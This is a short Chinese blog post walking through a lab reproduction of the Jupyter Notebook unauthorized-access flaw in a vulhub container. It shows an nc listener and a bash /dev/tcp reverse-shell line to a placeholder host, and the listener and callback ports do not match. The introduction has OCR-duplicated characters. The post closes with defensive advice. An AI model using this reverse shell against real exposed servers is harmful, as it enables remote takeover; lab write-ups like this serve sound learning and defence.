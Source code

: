 # Jupyter Notebook 未授权访问漏洞简单复现



#### 简介及危害
Jupyter Notebook(此前被称为 IPython notebook)是一一个交互式笔记本,支支持运行行行 40 多种编
程语言言。 如果管理理员未为Jupyter Notebook配置密码,将导致未授权访问漏漏洞洞,游客可在其中创建一一
个console并执行行行任意Python代码和命令。


#### 环境介绍
```bash
# 目标
环境来源：https://github.com/vulhub/vulhub/blob/master/jupyter/notebook-rce/
ip地址： 192.168.0.100
```


#### 开始测试
1.运行测试环境：
```bash
docker-compose up -d
```

2.访问目标地址 http://192.168.0.100:8888

3.New > Terminal 创建控制台：可以直接执行任意命令
![](https://geoer666-1257264766.cos.ap-beijing.myqcloud.com/smurf%E6%94%BB%E5%87%BB.png)

4.后面就直接执行任意命令，比如反弹shell等
```bash
# 本机监听
nc -lvp 5555

# 目标执行
bash -i >& /dev/tcp/x.x.x.x/8080 0>&1
```


#### 防御手段
- 开启身份验证, 防止止未经授权用用户访问
- 访问控制策略略, 限制IP访问, 绑定固定IP


---

> 作者: [剑胆琴心](http://shuai06.github.io)  
> URL: https://shuai06.github.io/jupyter-notebook-%E6%9C%AA%E6%8E%88%E6%9D%83%E8%AE%BF%E9%97%AE%E6%BC%8F%E6%B4%9E%E7%AE%80%E5%8D%95%E5%A4%8D%E7%8E%B0/  

